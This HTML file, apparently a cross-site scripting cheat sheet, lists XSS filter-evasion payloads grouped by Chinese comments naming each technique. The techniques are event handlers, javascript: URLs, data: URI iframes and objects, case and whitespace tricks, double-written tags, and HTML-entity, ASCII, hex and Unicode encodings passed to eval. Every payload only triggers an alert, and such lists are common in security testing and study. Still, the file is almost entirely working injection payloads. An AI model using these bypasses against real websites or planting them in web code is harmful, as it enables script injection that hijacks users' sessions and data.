 ```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    width: ｅｘｐｒｅｓｓｉｏｎ(alert(1))
    <!--TODO:使用全角字符-->
    <style>@import 'javasc\ri\0pt:alert("xss")';</style>
</head>
<body>
<img src="x"><script>alert(1)</script></img>
<img src="invalid_image.png" onerror="alert(1)">
<img src="1" onerror="alert(1)">
<body onload=alert(1)>
<p onmouseover=alert(1)>test</p>
<a href="javascript:alert(1)">test</a>
<img src="1" onerror="javascript:alert(1)">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" ></object>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<!--TODO:变形,大小写-->
<iMg src="#" onerror="alert(1)"/>
<img src='#' onerror='alert(1)'/>
<img src=# onerror=alert(1) />

<!--TODO:左斜线代替空格,水平制表符,回车符-->
<Img/Src='#'/Onerror="alert(1)"/>
<a href="javascript:alert(1)">test</a>

<!--TODO:双写绕过-->
<!--<scr<scriptipt>alert(1)</scr</script>ipt>-->

<!--TODO:编码-->
<A hREf="j&#97;v&#x61;script:alert(1)">test</A>

<!--TODO:使用特殊字符编码-->
<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">点击</A>

<!--TODO:使用html编码-->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;">点击</a>

<!--TODO:使用十进制 ascii 编码-->
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))>

<!--TODO:使用十六进制 ascii 编码-->
<img src=x onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")>
<script>eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")</script>

<!--TODO:使用unicode编码-->
<img src=x onerror=eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029")>

<!--TODO:使用jsfuck-->

</body>
</html>
```
